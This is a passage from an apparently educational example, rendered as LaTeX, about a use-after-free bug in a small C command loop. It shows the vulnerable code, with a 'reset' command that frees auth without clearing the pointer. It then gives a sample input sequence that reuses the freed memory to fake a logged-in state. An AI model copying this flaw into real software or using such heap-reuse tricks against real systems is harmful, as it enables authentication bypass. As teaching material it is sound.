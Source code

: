 \documentclass[
  a4paper,
]{report}
\newtheorem{example}{Example}
\newenvironment{Shaded}{}{}
\newcommand{\CommentTok}[1]{\textcolor[rgb]{0.38,0.63,0.69}{\textit{#1}}}
\newcommand{\ControlFlowTok}[1]{\textcolor[rgb]{0.00,0.44,0.13}{\textbf{#1}}}
\newcommand{\DecValTok}[1]{\textcolor[rgb]{0.25,0.63,0.44}{#1}}
\newcommand{\NormalTok}[1]{#1}
\newcommand{\OperatorTok}[1]{\textcolor[rgb]{0.40,0.40,0.40}{#1}}
\newcommand{\SpecialCharTok}[1]{\textcolor[rgb]{0.25,0.44,0.63}{#1}}
\newcommand{\StringTok}[1]{\textcolor[rgb]{0.25,0.44,0.63}{#1}}
\begin{document}
\begin{example}
\begin{Shaded}
\begin{Highlighting}[]
    \CommentTok{// Usage: reset}
    \ControlFlowTok{else} \ControlFlowTok{if} \OperatorTok{(}\NormalTok{strncmp}\OperatorTok{(}\NormalTok{line}\OperatorTok{,} \StringTok{"reset"}\OperatorTok{,} \DecValTok{5}\OperatorTok{)} \OperatorTok{==} \DecValTok{0}\OperatorTok{)} \OperatorTok{\{}
      \CommentTok{// [1]}
\NormalTok{      free}\OperatorTok{(}\NormalTok{auth}\OperatorTok{);}
    \OperatorTok{\}}

    \CommentTok{// Usage: service \textless{}service{-}name\textgreater{}}
    \ControlFlowTok{else} \ControlFlowTok{if} \OperatorTok{(}\NormalTok{strncmp}\OperatorTok{(}\NormalTok{line}\OperatorTok{,} \StringTok{"service "}\OperatorTok{,} \DecValTok{8}\OperatorTok{)} \OperatorTok{==} \DecValTok{0}\OperatorTok{)} \OperatorTok{\{}
\NormalTok{      service }\OperatorTok{=}\NormalTok{ strdup}\OperatorTok{(}\NormalTok{line }\OperatorTok{+} \DecValTok{8}\OperatorTok{);}
    \OperatorTok{\}}

    \CommentTok{// Usage: login}
    \ControlFlowTok{else} \ControlFlowTok{if} \OperatorTok{(}\NormalTok{strncmp}\OperatorTok{(}\NormalTok{line}\OperatorTok{,} \StringTok{"login"}\OperatorTok{,} \DecValTok{5}\OperatorTok{)} \OperatorTok{==} \DecValTok{0}\OperatorTok{)} \OperatorTok{\{}
      \CommentTok{// Possible use{-}after{-}free:}
      \ControlFlowTok{if} \OperatorTok{(}\NormalTok{auth }\OperatorTok{\&\&}\NormalTok{ auth}\OperatorTok{{-}\textgreater{}}\NormalTok{logged\_in}\OperatorTok{)} \OperatorTok{\{}
\NormalTok{        printf}\OperatorTok{(}\StringTok{"You are already logged in!}\SpecialCharTok{\textbackslash{}n}\StringTok{"}\OperatorTok{);}
      \OperatorTok{\}} \ControlFlowTok{else} \OperatorTok{\{}
\NormalTok{        printf}\OperatorTok{(}\StringTok{"NOT AUTHORIZED!}\SpecialCharTok{\textbackslash{}n}\StringTok{"}\OperatorTok{);}
      \OperatorTok{\}}
    \OperatorTok{\}}
  \OperatorTok{\}}

  \ControlFlowTok{return} \DecValTok{0}\OperatorTok{;}
\OperatorTok{\}}
\end{Highlighting}
\end{Shaded}

The exploit below may not work in every system, as it assumes that
calling malloc+free+malloc will result in both calls to malloc returning
the same pointer. The example execution below tricks the software into
thinking the user is logged in, by taking advantage of the UaF to change
the boolean:

\begin{verbatim}
> auth admin                                   
[ auth = 0x78322e1000, service = 0x0 ]       
> reset                                        
[ auth = 0x78322e1000, service = 0x0 ]       
> service aaaaaaaaa0aaaaaaaaa0aaaaaaaaa0121    
[ auth = 0x78322e1000, service = 0x78322e1000 ]
> login                                        
You are already logged in!
\end{verbatim}


\end{example}
\end{document}
